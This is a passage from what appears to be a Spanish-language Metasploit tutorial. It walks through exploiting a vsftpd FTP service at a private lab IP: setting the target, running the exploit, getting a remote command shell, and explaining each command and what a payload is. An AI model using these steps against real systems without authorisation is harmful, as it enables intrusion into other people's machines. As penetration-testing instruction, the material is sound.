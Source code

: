
✅ 5️⃣ Configurar IP objetivo:

```bash
set RHOSTS 192.168.1.10
```

---

✅ 6️⃣ Ejecutar exploit:

```bash
run
```

✅ Salida esperada:

```
[*] Command shell session 1 opened (tu_IP:tu_puerto -> 192.168.1.10:6200)
```

---

✅ 7️⃣ Usar la shell:

```
ls
whoami
pwd
```

✅ ¡Ya tienes acceso remoto!

---

### ✅ 7️⃣ Explicación de cada parte

| Comando              | Qué hace                                |
| -------------------- | --------------------------------------- |
| `search vsftpd`      | Busca el exploit adecuado               |
| `use exploit/...`    | Selecciona el exploit                   |
| `show options`       | Muestra opciones configurables          |
| `set RHOSTS <IP>`    | Define la IP del objetivo               |
| `set RPORT <puerto>` | Define el puerto objetivo (21 para FTP) |
| `run`                | Lanza el exploit                        |
| `sessions`           | Lista sesiones activas                  |
| `session -i <ID>`    | Abre una sesión específica              |

---

### ✅ 8️⃣ ¿Qué es un payload en Metasploit?

✅ Payload = el **código malicioso** que se ejecuta cuando el exploit tiene éxito.

---